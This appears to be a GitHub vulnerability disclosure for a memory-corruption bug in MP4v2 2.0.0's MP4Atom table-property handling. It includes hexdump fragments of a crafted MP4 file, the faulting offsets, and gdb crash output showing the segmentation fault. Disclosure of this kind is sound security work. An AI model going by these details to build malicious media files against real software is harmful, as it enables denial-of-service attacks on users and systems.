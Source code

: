 # libmp4_bof

MP4v2_BOF

The MP4Atom class in mp4atom.cpp in MP4v2 through 2.0.0 mishandles
Entry Number validation for the MP4 Table Property, which allows
remote attackers to cause a denial of service (overflow, insufficient memory allocation, and segmentation fault) or possibly have unspecified other impact via a crafted mp4 file.


MP4v2 through 2.0.0

Mp4 Table Property that checks Entry number has a vulnerability with opening a maliciously craft mp4 file. It causes Memory crash and Denial-Of-Service.



 root@ubuntu:/home/wim# hexdump -C wim.mp4 | grep 63
	
 00000020  de 36 00 00 6c 69 62 66  61 61 63 20 31 2e 32 36  |.6..libfaac 1.26|
 
 00000330  3e ff af f3 c7 0b ba b2  a5 51 2a b2 63 43 ed ba  |>........Q*.cC..|
 
 00000500  ac 08 90 50 56 14 81 5c  70 aa 05 ef 34 1a a4 63  |...PV..\p...4..c|
 
 00000510  a8 63 26 5d 78 02 04 08  08 01 6a a7 72 00 85 50  |.c&]x.....j.r..P|
 
 00000630  cb 58 02 6a 02 02 80 2e  00 00 04 c0 12 01 70 00  |.X.j..........p.|
 
 00000880  9f ce 33 e1 f6 03 b3 e6  63 fd be d7 25 3f 38 d9  |..3.....c...%?8.|
 
 00000bd0  00 00 00 99 00 00 00 28  73 74 73 63 00 00 00 00  |.......(stsc....|
 
 00000c00  73 74 63 6f 00 00 00 00  00 00 00 03 00 00 00 20  |stco........... |
 
 00000c10  00 00 04 ab 00 00 08 df  00 00 00 20 63 74 74 73  |........... ctts|
 
	

 insufficient checking on Entry Number in MP4 Table Property- m_pProperties[i] 0xC1C ~ 0xC1F in /src/mp4atom.cpp

 When overflow occurs, small size of data is allocated and while reading data, crash occurs due to a memory reference error


 gdb-peda$ r ../wim.mp4
 Starting program: /home/wim/.libs/lt-mp4info ../wim.mp4
 /home/wim/.libs/lt-mp4info version 2.0.0
 ../wim.mp4:

 Program received signal SIGSEGV, Segmentation fault.

registers

 EAX: 0x80695c0 --> 0x0
 
 EBX: 0xb7fd5000 --> 0x171e40
 
 ECX: 0x0
 
 EDX: 0x0
 
 ESI: 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 EBP: 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 ESP: 0xbfffe890 --> 0x80695c0 --> 0x0
 
 EIP: 0xb7f0af85 (<mp4v2::impl::MP4Atom::~MP4Atom()+53>: call   DWORD PTR [edx+0x4])
 
 EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
 

code

    0xb7f0af7e <mp4v2::impl::MP4Atom::~MP4Atom()+46>: xchg   ax,ax
    
    0xb7f0af80 <mp4v2::impl::MP4Atom::~MP4Atom()+48>: mov    edx,DWORD PTR [eax]
    
    0xb7f0af82 <mp4v2::impl::MP4Atom::~MP4Atom()+50>: mov    DWORD PTR [esp],eax
    
 => 0xb7f0af85 <mp4v2::impl::MP4Atom::~MP4Atom()+53>: call   DWORD PTR [edx+0x4]
 
    0xb7f0af88 <mp4v2::impl::MP4Atom::~MP4Atom()+56>: cmp    DWORD PTR [esi+0x44],edi
    
    0xb7f0af8b <mp4v2::impl::MP4Atom::~MP4Atom()+59>: jbe    0xb7f0afa0 <mp4v2::impl::MP4Atom::~MP4Atom()+80>
    
    0xb7f0af8d <mp4v2::impl::MP4Atom::~MP4Atom()+61>: mov    edx,DWORD PTR [esi+0x4c]
    
    0xb7f0af90 <mp4v2::impl::MP4Atom::~MP4Atom()+64>: add    edi,0x1



Guessed arguments:
 arg[0]: 0x80695c0 --> 0x0

stack

 0000| 0xbfffe890 --> 0x80695c0 --> 0x0
 
 0004| 0xbfffe894 --> 0xb7d736bc --> 0xf9
 
 0008| 0xbfffe898 --> 0xffffffff
 
 0012| 0xbfffe89c --> 0xb7fd5000 --> 0x171e40
 
 0016| 0xbfffe8a0 --> 0xb7fd5000 --> 0x171e40
 
 0020| 0xbfffe8a4 --> 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 0024| 0xbfffe8a8 ("sttc\264W\354\267\020\225\006\b")
 
 0028| 0xbfffe8ac --> 0xb7ec57b4 (<mp4v2::impl::MP4StandardAtom::~MP4StandardAtom()+36>: mov    DWORD PTR [esp],esi)

Legend: code, data, rodata, value

 Stopped reason: SIGSEGV
 
 0xb7f0af85 in mp4v2::impl::MP4Atom::~MP4Atom (this=0x8069510, __in_chrg=<optimized out>) at src/mp4atom.cpp:66
	
 66         delete m_pProperties[i];

mp4v2-2.0.0(https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/mp4v2/mp4v2-2.0.0.tar.bz2) - v2-2.0.0

i
